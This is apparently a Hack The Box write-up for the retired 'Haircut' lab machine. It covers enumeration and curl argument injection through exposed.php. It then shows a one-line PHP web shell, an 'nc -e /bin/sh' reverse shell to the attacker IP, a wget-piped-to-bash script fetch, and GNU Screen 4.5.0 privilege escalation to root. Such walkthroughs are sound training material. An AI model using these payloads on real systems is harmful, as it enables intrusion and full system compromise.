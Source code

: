 # Haircut

This is the write-up for the box Haircut that got retired at the 30th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.24    haircut.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haircut.nmap 10.10.10.24
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is a photo of a person and nothing interesting in the source.
Lets search for hidden paths and PHP files with **Gobuster**:
```markdown
gobuster -u http://10.10.10.24/ -w dir /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

The responses are the path _/uploads_ with HTTP Code 403 Forbidden, a page _/test.html_, where its a picture of hair and _/exposed.php_ where we see this:

![Exposed page](haircut_web-1.png)

When clicking on _Go_, it gets back the _test.html_ site.
If we start a web server and input the IP of our server in there it tries to connect to us.

Trying special characters like semicolon and pipes get filtered with a warning, that those characters can't be used.
By inputting anything into the field, it displays an error from `curl`:

![Curl identified](haircut_web-2.png)

This means that this application sends a `curl` command to get the files.
Lets send this to _Burpsuites Repeater_ to try some things with _cURL_.

### Getting a reverse shell

We can try to put parameters of _cURL_ in there:
```markdown
formurl=--version&submit=Go
```

This works and displays the version number of cURL, so lets try to upload something on the _/uploads_ directory with it.
```markdown
formurl=-o uploads/test.html http://10.10.14.23:8000/test.html&submit=Go
```

Requesting the test.html file we get it back, so we can upload a PHP file to get command execution.
The web shell _shell.php_ file I will upload has this code in it:
```php
<?php echo system($_REQUEST['cmd']); ?>
```

Now we can request the file with the command `whoami` to test it:
```markdown
GET /uploads/shell.php?cmd=whoami HTTP/1.1
```

This works and it is possible to send a command to start a reverse shell on the box.
```markdown
GET /uploads/shell.php?cmd=nc -e /bin/sh 10.10.14.23 9001 HTTP/1.1
```

We are on the box as _www-data_.

## Privilege Escalation

Now executing any Linux enumeration script to get an attack surface:
```markdown
wget http://10.10.14.23:8000/LinEnum.sh | bash
```

Looking for binaries with the _Setuid bit_ enabled:
```markdown
find / -perm -4000 2>/dev/null | xargs ls -la
```

The binay `screen` has the setuid bit set and explicitly the version number 4.5.0 displayed which has a privilege escalation vulnerability. The explanation for this exploit can be found through `searchsploit screen` on the **GNU Screen 4.5.0 - Local Privilege Escalation (PoC)** exploit.

For this we need to create some files first. They are in this folder.
- libhax.c:
- rootshell.c

Compiling the code:
```markdown
gcc rootshell.c -o rootshell

gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

This created the Shared object file _libhax.so_ and the binary _rootshell_.

Executing these commands one after another and in the end executing the _rootshell_ binary:
```markdown
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

This will start a shell as root!
